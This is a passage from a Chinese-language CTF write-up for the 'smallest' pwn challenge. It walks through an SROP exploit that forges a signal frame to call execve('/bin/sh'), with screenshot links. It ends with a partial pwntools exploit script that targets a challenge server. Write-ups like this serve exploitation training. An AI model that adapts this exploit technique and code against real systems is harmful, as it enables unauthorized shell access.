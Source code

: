    栈上的布局，sigal frame从第二行开始（因为后面还要ret调用read来控制rax的值，ret衔接到syscall，从而执行rt_sigreturn系统调用）：

   ![image-20241009204154758](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202410092041956.png)

   read继续输入，输入长度为15：

   ![image-20241009204348733](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202410092043851.png)

   返回后 rax = 15，并顺利衔接到syscall指令：

   ![image-20241009204425746](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202410092044972.png)

   调用到SYS_rt_sigreturn系统调用，观察此时栈上的数据：

   ![image-20241009204521060](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202410092045297.png)

   刚好把前面填充的两个空位移除(ret)掉，下面执行SYS_rt_sigreturn系统调用就会从该地址处认为是sigal frame，据此来恢复寄存器的值

   ![image-20241009204623172](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202410092046307.png)

   执行完SYS_rt_sigreturn系统调用，就会直接用栈上的数据恢复寄存器的值(SYS_rt_sigreturn系统调用只恢复所有寄存器)，rip等寄存器顺利衔接到上面sigal frame伪造得到execv("/bin/sh",0,0)从而getshell：

   ![image-20241009204855196](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202410092048401.png)

   最后成功getshell：

   ![image-20241009205120704](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202410092051906.png)

3. 完整EXP：

   ```py
   from pwn import *
   from LibcSearcher import *
   # context(os='linux', arch='amd64', log_level='debug')
   context.arch = 'amd64'
   context.log_level = 'debug'
   
   def debug():
       gdb.attach(p)
   
   choose = 2
   if choose == 1 :    # 远程
       success("远程")
       p = remote("node4.anna.nssctf.cn",28111)
       libc = ELF("/home/kali/Desktop/haha/libc-2.27.so")
       # libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc-2.27.so')
       # libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.39-0ubuntu8_amd64/libc.so.6')
   
   else :              # 本地
       success("本地")
       p = process("./smallest")
       libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
       debug()
       # libc = ELF('/home/kali/Desktop/source_code/glibc-2.38_lib/lib/libc.so.6')
       # ld = ELF("ld.so") 
   pause()
   
   # 先泄漏栈地址
   SYS_read_ret = 0x00000000004000B0
   syscall_ret = 0x0000000004000BE
   payload = p64(SYS_read_ret) + p64(syscall_ret) + p64(SYS_read_ret)
   p.send(payload)
   pause()
   payload = b"\xb3"
   p.send(payload)
   ```